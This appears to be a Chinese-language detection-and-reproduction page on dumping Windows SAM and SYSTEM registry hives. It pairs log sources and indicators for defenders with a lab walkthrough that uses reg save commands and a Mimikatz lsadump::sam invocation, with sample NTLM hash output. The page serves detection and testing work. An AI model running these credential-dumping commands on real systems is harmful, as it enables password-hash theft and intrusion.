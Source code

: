 ## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID4688：进程创建，记录`reg.exe`或`copy.exe`的执行信息。
- Sysmon日志：
  - 事件ID1：进程创建，包含命令行、哈希值和父进程。
  - 事件ID11：文件创建，记录导出的`.hiv`文件。
  - 事件ID13：注册表修改，记录对`HKLM\SAM`或`HKLM\SYSTEM`的访问。
- 文件监控：
  - 检测非系统路径下的`.hiv`文件或对`C:\Windows\System32\config\`的访问。
- 行为监控：
  - 检测`mimikatz.exe`或类似工具的执行。


## 测试复现

### 环境准备
- 攻击机：KaliLinux2019
- 靶机：WindowsServer2012
- 工具：
  - Mimikatz（哈希提取）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 测试1：本地导出SAM和SYSTEM文件并提取哈希
1. **获取SYSTEM权限**：
   - 使用提权工具（如Metasploit的`getsystem`）或已有的Administrator账户提升至SYSTEM权限。
   ```cmd
   whoami /priv
   ```

2. **导出注册表配置单元**：
   在靶机上执行：
   ```cmd
   reg save HKLM\SAM C:\Temp\sam.hiv
   reg save HKLM\SYSTEM C:\Temp\system.hiv
   ```

3. **复制文件到攻击机**：
   将`sam.hiv`和`system.hiv`复制到攻击机（如通过SMB或HTTP）。

4. **使用Mimikatz提取哈希**：
   在攻击机上运行：
   ```cmd
   mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" exit
   ```
   - 示例输出：
     ```
     RID  : 000001f4 (500)
     User : Administrator
       Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
     RID  : 000003eb (1003)
     User : test
       Hash NTLM: a2345375a47a92754e2505132aca194b
     ```
